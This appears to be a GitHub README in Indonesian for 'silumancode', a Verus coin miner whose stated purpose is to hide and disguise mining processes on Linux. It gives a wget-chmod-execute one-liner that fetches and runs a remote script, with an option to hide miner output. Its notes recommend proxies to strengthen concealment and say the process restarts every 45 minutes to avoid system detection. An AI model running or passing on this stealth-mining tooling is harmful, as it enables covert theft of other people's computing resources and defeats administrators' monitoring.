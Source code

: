 # silumancode
miner verus coin yang mampu menyembunyikan dan menyamarkan proses mining di sistem linux
## install dependence :
 apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## Penggunaan
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh wallet.namaminer pool thread y/n
### Keterangan :
        - wallet : alamat walet verus miner anda.
        - pool   : pool mining verus coin (usahakan menggunakan proxy).
        - thread : jumlah thread processor yang akan digunakan (usakan tidak menggunakan thread maksimal yang tersedia).
        - y/n    : opsi untuk menampilkan proses mining dari miner (y untuk menampilkan, no tidak menampilkan).
### example
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 n
![tampilan example](images/cmsil.png)
### example II
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 y
![tampilan example II](images/cmsil2.png)
### Catatan Tambahan
1. gunakan proxy untuk memaksimalkan proses penyamaran proses mining
2. proses miner akan di restart setiap 45 menit (untuk menghindari deteksi system)
3. kode ini hanya sementara untuk penggunaan jangka panjang dan mining coin lain, bisa menghubungi contak wa : 
